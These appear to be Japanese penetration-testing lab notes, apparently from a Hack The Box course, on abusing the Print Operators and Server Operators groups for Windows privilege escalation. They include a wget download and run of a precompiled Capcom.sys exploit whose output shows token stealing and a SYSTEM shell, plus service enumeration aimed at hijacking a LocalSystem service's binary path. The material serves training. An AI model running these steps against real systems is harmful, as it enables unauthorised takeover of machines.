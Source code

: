 

```sh
wget https://github.com/Ant1sec-ops/Compiled-capcom-exploit/raw/refs/heads/main/ExploitCapcom.exe
```

```powershell-session
PS C:\htb> .\ExploitCapcom.exe

[*] Capcom.sys exploit
[*] Capcom.sys handle was obained as 0000000000000070
[*] Shellcode was placed at 0000024822A50008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
```
- 現在のWindowsでは対策されている点
	- **Windows 10 バージョン1803以降、HKCU（現在のユーザー）のレジストリツリーからドライバーをロードする際に、ドライバーのパスを指定する方法に制限が加わった**
	- これにより、Print Operators権限（通常はHKCUに書き込める）でSeLoadDriverPrivilegeを悪用してSYSTEM権限を奪うことが難しくなった、あるいは不可能になった
- まとめ
	- Print Operatorsはプリンター管理以外にも SYSTEMシャットダウンやローカルログオンなど重要な権限を持つ。
	- 過去にはSeLoadDriverPrivilegeの悪用が大きなリスクだったが、OSのアップデートでその手法は緩和された。
	- とはいえ、Print Operatorsグループは依然として重要な権限を持つため、メンバーシップの管理は注意深く行うべき。

## Server Operators
- Server Operatorsグループは、ドメイン管理者権限なしでサーバー管理ができる権限を持つグループ
	- サーバーにローカルログオンしたり、サービスを制御したりできる高い権限を持つ
- このグループが危険な理由の一つは、「サービスの制御」権限
	- Windowsのサービスの中には、「SYSTEM」という非常に強い権限で動いているものがある
	- Server Operatorsは、**SYSTEM権限で動く特定のサービスの設定を変更できる**ことがある
	- メンバーシップは、強力な SeBackupPrivilege および SeRestorePrivilege 特権、およびローカルサービスを制御する能力が与えられる



### サービスのバイナリパス変更
まず、全サービスの状態を確認
```cmd
sc query type= service state= all
```

AppReadinessサービスの調査
- SYSTEM権限で開始されるかを調査する
	- `SERVICE_START_NAME` : LocalSystem は、このAppReadinessサービスが NT AUTHORITY\SYSTEM というSYSTEM権限で実行されることを示す
```cmd-session
C:\htb> sc qc AppReadiness

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AppReadiness
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\System32\svchost.exe -k AppReadiness -p
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : App Readiness
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
